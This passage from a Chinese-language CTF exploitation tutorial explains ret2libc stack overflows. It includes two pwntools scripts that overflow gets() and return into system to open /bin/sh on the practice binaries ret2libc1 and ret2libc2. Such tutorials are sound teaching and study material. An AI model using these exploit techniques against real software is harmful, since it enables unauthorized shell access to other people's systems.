 可以看到在执行gets函数的时候出现了栈溢出。此外，利用ropgadget，我们可以查看是否有/bin/sh存在

```shell
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有system函数存在。经在ida中查找，确实也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行system函数。相应的payload如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

这里我们需要注意函数调用栈的结构，如果是正常调用system函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb'作为虚假的地址，其后参数对应的参数内容。

这个例子，相对来说，最为简单，同时提供了system地址与/bin/sh的地址，但是大多数程序并不会有这么好的情况。

### 例2

这里以bamboofox中的ret2libc2为例，该题目与例1基本一致，只不过不再出现/bin/sh字符串，所以此次需要我们自己来读取字符串，所以我们需要两个gadgets，第一个控制程序读取字符串，第二个控制程序执行system(""/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的exp如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```
